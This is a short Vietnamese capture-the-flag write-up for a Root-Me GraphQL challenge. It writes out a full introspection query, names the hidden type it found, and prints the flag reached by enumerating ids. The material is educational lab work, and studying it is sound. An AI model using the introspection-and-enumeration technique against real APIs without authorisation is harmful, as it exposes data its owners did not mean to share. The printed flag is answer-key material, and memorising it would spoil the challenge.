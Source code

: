 ![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/21c73632-ccc1-496e-aacf-049f61652b14)

![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/3c5d8cdd-3cfe-4f4f-8785-026fabb75fb6)

Đây là câu lệnh đầy đủ nhất mà tôi có thể tìm kiếm

```
{"query":"{__schema{queryType{name},mutationType{name},types{kind,name,description,fields(includeDeprecated:true){name,description,args{name,description,type{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},defaultValue},type{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},isDeprecated,deprecationReason},inputFields{name,description,type{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},defaultValue},interfaces{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},enumValues(includeDeprecated:true){name,description,isDeprecated,deprecationReason,},possibleTypes{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}}},directives{name,description,locations,args{name,description,type{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},defaultValue}}}}"}
```

![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/e88980e8-14d3-426d-b9cf-12f5d344768c)

Dựa theo kết quả thu được thì khi query 

+ rocket -> id, name, country, is_active
+ IAmNotHere -> very_long_id, very_long_value

![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/95143689-54b5-4eec-8763-6923e7338e70)

Thử tới id 17 => flag: RM{1ntr0sp3ct1On_1s_us3ful}
![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/2db959e9-8d75-48ed-9684-fcee69dd629a)
